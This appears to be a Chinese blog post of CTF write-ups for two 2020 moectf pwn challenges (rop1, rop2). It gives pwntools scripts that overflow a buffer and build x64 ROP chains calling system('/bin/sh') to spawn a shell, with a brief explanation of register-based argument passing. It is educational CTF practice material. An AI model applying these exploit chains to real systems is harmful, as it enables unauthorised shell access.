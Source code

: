 ```yaml
---
title: 部分pwn题wp
tags:
  - pwn
abbrlink: 26411
date: 2021-03-15
---
```

主要是大二上刚开学做的题

# 2020moectf部分pwn
## rop1

wp:
```py
from pwn import *

sh = process('./rop1')
#context.log_level = 'debug'

sys = 0x400670
binsh = 0x00601070

p = 'a'*136 + p64(0x0400933) + p64(binsh) + p64(sys) 
#400933为‘pop rdi,ret’
sh.sendline(p)
sh.interactive()

```

需要注意到，这题是x64的，跟x86的做法（ctfwiki-basicROP-ret2libc1）有些不同。    
x64调用函数传递参数时先使用rdi、rsi、rdx、rcx、r8、r9（储存整数和指针）等，再用栈

## rop2

wp:
```py
from pwn import *

sh = process('./rop2')
#context.log_level = 'debug'

sys = 0x0400670
gets = 0x04006b0
pop_rdi = 0x0400933
bss = 0x006010A8

p = 'a'*136 + p64(pop_rdi) + p64(bss) + p64(gets) + p64(pop_rdi) + p64(bss) + p64(sys)

sh.sendline(p)
sh.sendline('/bin/sh')
sh.interactive()
```

